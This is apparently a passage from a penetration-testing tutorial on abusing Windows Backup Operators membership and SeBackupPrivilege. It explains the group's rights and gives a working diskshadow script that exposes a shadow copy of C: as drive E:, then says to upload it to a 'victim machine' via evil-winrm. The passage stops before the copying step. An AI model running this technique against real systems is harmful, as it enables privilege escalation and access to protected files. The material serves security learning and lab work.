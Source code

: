 And we are member of **Backup Operators** group in domain.

#### What is Backup Operators group?

 **Backup Operators** group is an historical Windows built in group. Backup operator groups allows users to take the **backup** and **restore** files regardless whether they have **access** to the files or not.
 Privileges of backup Operators
- Can recover and back up files.
- Can create a system backup.
- Able to recover system state. (Only Windows® XP and 2003). To restore system state on Windows Vista, 7, 8, 8.1, 2008, or 10, you must also be a member of the Administrators group.
- The TSM Scheduler service can be started

## Exploitation

There are multiple ways to exploit **SeBackupPrivileges** permissions. [refrence](https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960)

### Diskshadow & Robocopy 

Diskshadow and Robocopy are both windows buil-in utilities. **Diskshadow** creates copies of a currently used drive because we cannot create a copy of running system files, while **Robocopy** copies files and directories from one location to another.

Let's Create a script which will create a full backup of `C:\`  and exposes it as a network drive with the drive letter `E:\`.

```bash
$ cat backup.txt 
set verbose on 
set metadata C:\Windows\Temp\meta.cab 
set context clientaccessible 
set context persistent 
begin backup 
add volume C: alias cdrive 
create 
expose %cdrive% E: 
end backup 
```

- `set verbose on` to enable verbosity
- `set metadata C:\Windows\Temp\meta.cab` Location of metadata
- `set context clientaccessible` to make backup accessible to us
- `set context persistent` making it persistent so that we never lost it after the re-boot
- `begin backup` initiates backup process
- `add volume C: alias cdrive` includes the `C:\` drive, and assigns it an alias such as **cdrive** for reference
- `create` create a backup
- `expose %cdrive% E:` expose alias **cdrive** as a network drive
- `end backup` to finalize the backup
 
Now upload the backup script to victim machine using **upload** feature of evil-winrm.
